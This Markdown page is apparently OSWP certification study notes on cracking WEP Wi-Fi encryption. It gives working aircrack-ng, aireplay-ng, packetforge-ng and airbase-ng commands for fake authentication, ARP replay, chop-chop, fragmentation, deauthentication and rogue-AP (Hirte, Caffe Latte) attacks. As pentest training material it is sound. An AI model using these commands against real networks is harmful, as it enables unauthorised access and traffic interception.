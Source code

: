 ## WEP

<br><img align="center" alt="Coding" width="400" height="150" src="https://github.com/cabby1234/OSWP-Reference-Guide/assets/131496256/1647bf83-445e-464e-81bb-2e8e91c0972e">

CRC-32 is a digest, just like MD5

An attacker can sniff packets, where the IV (24 bit) is in plain text. since 24 bit is not much, capturing enough packets, statistical attacks can be run. RC4 generates the same keystring for a same IV+key. #Data in airodump shows how many useful packets have been captured. When enough are present we can crack it with:
``aircrack-ng archivo.cap``

Sometimes aircrack doesn't return the ascii version of the key but we can connect to the network with the hex (without the ":" ). 

If not many clients are connected we can force the AP to send us traffic. We first need to associate with it (otherwise it ignores our requests), then we can send packets and capture the IVs in the packets it returns to us.

For this, keep saving packets:
``sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon``

and do a fake auth (the 0 indicates that the attack is done once):
``sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <la MAC de wlan0mon> wlan0mon``

In monitor mode, with ifconfig we see ``unspec`` instead of  ``ether`` and the MAC looks longer, we need only the first 6 bytes:
<font color=red>and for aireplay commands replace - by : </font>

At this point we are only associated to the AP, not connected to it. There are several methods to generate traffic:

#### Crafted ARP packets
Wait till there is an ARP packet (sent by the clients already connected to the network). They will be encrypted but because of their length we know they can be ARP. We just relay them to the AP. The AP will respond to us with another packet with a new IV. We do this until we have enough IVs.
To do this (just befor this command run the --fakeauth just in case)
It is necessary to use a target client MAC with -h, the MAC of a client that is already connected to the network and sends valid IVs
``sudo aireplay-ng --arpreplay -b <AP bssid> -h <target client MAC> wlan0mon``

<font color=red> The -a used in other commands is replaced by -b for the BSSID and the --arpreplay doesn't have any number afterward</font>
This captures packets until one of them is an ARP request, and then starts to generate traffic. Watch with airodump who many useful packets we have in ``#Data``.

<font color=red>to capture useful ARP packets we either need to be associated with the AP (fakeauth) or use with aireplay-ng arpreplay the MAC of an associated client</font>

Depending on the key length (64 or 128) bit it takes more IVs to crack the key

#### Stealthy sniffing
Just waiting for clients to send a lot of IVs to the AP can take a lot of time but it's stealty

#### Chop chop attack
Instead of replaying an ARP packet we determine the keystream of a packet, we craft a new packet with the keystream and inject it to the AP. The AP will respond with a new IV that we will replay, etc. Can be used when no clients are connected to the AP

<font color=red>The --fakeauth attack is only used against OPEN and WEP networks, it doesn't work against WPA/WPA2. Fake auth doesn't generate ARP packets. The lack of association with the access point is the biggest reason why injection fails, so we need to do fakeauth before trying to inject packets to WEP networks (ARP replay, chopchop, fragmentation attack).</font>
Sometimes you periodically get disassociation events. Some access points require to reassociate every 30 seconds, otherwise the fake client is considered disconnected. In this case, setup the periodic re-association delay:

```bash
aireplay-ng -1 30 -e 'the ssid' -a 00:13:10:30:24:9C -h 00:11:22:33:44:55 ath0
```
If fake authentication is never successful (aireplay-ng keeps sending authentication requests) then MAC address filtering may be in place

more info and troubleshooting in: https://www.aircrack-ng.org/doku.php?id=fake_authentication

```bash
# We first start airodump to capture packets and save them to a file
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon

# Then we do fake auth with aireplay to associate to the AP (run just before the chop chop attack). We can get our MAC with ifconfig wlan0
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <our wlan0mon MAC that we want to associate> wlan0mon

# chop chop attack (waits for beacons from AP to try to determine keystream from them)
sudo aireplay-ng --chopchop -b <AP bssid> -h <our wlan0mon MAC> wlan0mon

# When it finds an ARP packet it asks if we want to use it. say "y". After a while it saves the keystream in a xor file. We can do ctrl-C to not wait much, but the saved keystream may fail. If so, keep the chop chop working for longer.

# After that, forge an ARP packet (-0 option)
packetforge-ng -0 -a <bssid> -h <our wlan0mon MAC address> -k 255.255.255.255 -l 255.255.255.255 -y <file.xor> -w <forged packet name>
# -k is destination IP (use 255.255.255.255)
# -l is source IP (use 255.255.255.255)
# <forged packet name> can be anything, it's the name of the forged packet

# having done --deauth again, use the forged packet:
sudo aireplay-ng -2 -r <forged packet name> wlan0mon
# -2 is for replaying
# it asks again if we want to use the packet. say "y", this starts to generate traffic that airodump caputres
```


#### Fragmentation attack
Similar to chop chop but we need to obtain 1500 bytes from the pseudo random generator algorithm (PRGA). With this attack another packet is forged, but it's faster than chop chop, although we need to be physically close to the AP so that it works better.

```bash
# Start saving packets
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon

# fake auth (the 0 instructs to do the attack once)
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <our wlan0mon MAC> wlan0mon

# Obtain PRGA
aireplay-ng --fragment -b <bssid> -h <our wlan0mon MAC> wlan0mon

# Say "y" when asked. It may fail several times and ask us if we want to use another. say "y" always. When one of the packets is useful it lets us know and saves the keystream in a .xor file

# forge a new packet (with -0 it creates an ARP packet)
packetforge-ng -0 -a <bssid> -h <nuestra mac de wlan0mon> -k 255.255.255.255 -l 255.255.255.255 -y <xor file> -w <output>

# inject the forged packet (remember to do fake auth just before this)
sudo aireplay-ng -2 -r <forged packet name> wlan0mon
```


#### WEP SKA
Normally when we do fake auth with aireplay-ng to a WEP network we can see it becomes OPN, but some routers allow to configure Shared Key Authentication (SKA), which prevents that no one without that key can associate to the AP (unlike in OPEN networks, where anyone can associate). In networks with SKA set up we will see SKA after doing fake auth. 

It is possible to deauthenticate a connected client, and capture the SKA when he reconnects. With this key we can associate to the AP and try the previous attacks to recover the WEP key.

We can also inject an ARP packet using the MAC address of the client which is already connected to the AP. With this we can generate traffic to recover IVs and still crack the WEP password, despite not having the SKA.

```bash
sudo aireplay-ng --arpreplay -b <AP bssid> -h <MAC of a connected client> wlan0mon
```

The 802.11w standard protects against deauth attacks, buth must be supported by both the client and the AP

When we have cracked a WEP or WPA key we can decrypt captured traffic in wireshark:

``preferences > protocols > IEEE 802.11``, check "enable decryption", edit the decryption keys y create new entries. For WEP, use the key in hex format.`

If we don't have wireshark we can do:
```bash
airdecap-ng -w <wep key in hex> <pcap>
tshark -r <decrypted pcap>
```


### AP-less attacks: Caffe latte attack
We can craft packets by modifying the ICV (integrity check value, that is, a CRC) and the plantext of a message and do so in a way that the AP thinks that the message is legitimate.

With this we can modify a Gratuitous ARP packet and change it to an ARP request packet, to repeat the ARP attack

Client devices store the keys of the networks they already connected to in the past. If we create a fake AP that looks like on of the stored APs in the client PNL, he will connect to us and send WEP-encrypted data with the target AP key. Sometimes it sends also Gratuitous ARP packets, to say its IP and MAC
 In these messages we won't find the target MAC, and the target IP and sender IP are the same (that of the client). We as an AP send requests to the client, and he will return responses to us, from where we get valid IVs that can be cracked as always.

We don't have a valid WEP keys for the crafted packets, but due to the properties of XOR we can modify the packets that he sends us, and they will still be valid.


#### Hirte attack
AP-less attack
```bash
# create fake AP (-N for hirte attack)
airbase-ng -c 1 --essid "network1" -W 1 -N mon0

# capture packets
airodump-ng -c 1 mon0 --write Hirte

# wait for the client to connect, and ARP packets should start being replayed, 
```


### WEP cloacking 
WEP protection in which fake packets are sent into the air to make it difficult to crack WEP (they try to difficult the statistical attacks)

